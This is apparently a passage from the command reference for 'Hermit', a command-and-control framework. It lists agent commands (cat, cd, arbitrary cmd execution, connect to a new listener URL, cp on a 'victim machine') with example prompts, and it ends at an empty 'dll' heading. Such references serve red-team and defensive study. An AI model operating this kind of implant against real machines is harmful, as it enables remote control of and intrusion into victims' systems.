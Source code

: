 Most task commands are similar to system commands.  
For each usage, run `help <command>` or `help <command> <subcommand>` on Agent mode.

## `cat`

Prints contents of a file.

```sh
Hermit [agent-abcd] > cat example.txt
```

## `cd`

Changes current working directory.  
Please note that if you want to use a backslash (`\`) in the desination path, you need to add another backslash (`\\`) as below:

```sh
Hermit [agent-abcd] > cd "C:\\Program Files\\"
```

Or you can use a normal slash (`/`) instead of a backslash:

```sh
Hermit [agent-abcd] > cd "C:/Program Files/"
```

## `cmd`

Executes an arbitrary system command.

```sh
Hermit [agent-abcd] > cmd "dir -Force"
```

## `connect`

Changes the connected listener URL to new one.   
This is used when we want to change to another listener for communication.

```sh
Hermit [agent-abcd] > connect https://172.12.34.56:12345
```

## `cp`

Copies a file to destination path on a victim machine.  
We can specify an absolute path or a relative path.

```sh
Hermit [agent-abcd] > cp /tmp/example.txt ./example.txt
```

## `dll`

